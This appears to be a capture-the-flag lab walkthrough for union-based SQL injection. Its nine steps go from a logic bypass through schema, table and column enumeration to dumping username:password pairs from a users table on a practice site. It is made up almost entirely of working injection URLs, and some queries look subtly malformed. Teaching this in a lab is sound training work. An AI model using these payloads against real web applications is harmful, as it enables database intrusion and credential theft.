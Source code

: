 # Union Based SQL Injection

### SQL Challenges
**Question 1:** Try and show article id 2 by changing the logic of the query.
```
https://50998km2.eu2.ctfio.com/article?id=0' OR id='2
```
```sql
-- Bypass restrictions
SELECT * FROM articles WHERE released=1 AND id=0'' OR id='2'
```

**Question 2:** Use the UNION command to work out how many rows should be returned.
```sql
-- Determine how many columns
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,3,4;--
```

**Question 3:** Using the previous command swap column 4 to the word hello to show characters can also be returned.
```sql
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,3,'hello';--
```

**Question 4:** Use the built in DATABASE() function to return the current database data
```sql
-- Extract current database name
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,3,DATABASE();--
```

**Question 5:** Utilise the information_schema database to extract structural information. Starting with the SCHEMATA table and the SCHEMA_NAME column. Use GROUP_CONCAT to return all results in one row.
```sql
-- Extract all database
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,3,DATABASE(SELECT GROUP_CONCAT(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA);--
```

**Question 6:** Now we know the name of the databases we can extract a list of all of the tables from information.TABLES using the TABLE_NAME column.
```sql
-- Extract all database tables
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,3,DATABASE(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='sqli_two');--
```

**Question 7:** The last step of understanding the database structure is to find all the column names in the table users we can do this from the information_schema.COLUMNS table extracting the COLUMN_NAME column.
```sql
-- Extract all column names
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users');--
```

**Question 8:** Now we know the whole structure we can query users table to extract the username and password columns for one user.
```sql
-- Extract user data
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,username,password from users;--
```

**Question 9:** select * from articles where released=1 and id='0' UNION SELECT 1,2,3,GROUP_CONCAT( concat(username,':',password) ) from users;--'
```sql
https://50998km2.eu2.ctfio.com/article?id=0' UNION SELECT 1,2,3,GROUP_CONCAT(CONCAT(username,':',password) ) FROM users;--'
```

---

**SQL Lab:** https://app.hackinghub.io/hubs/interactive-sqli-union
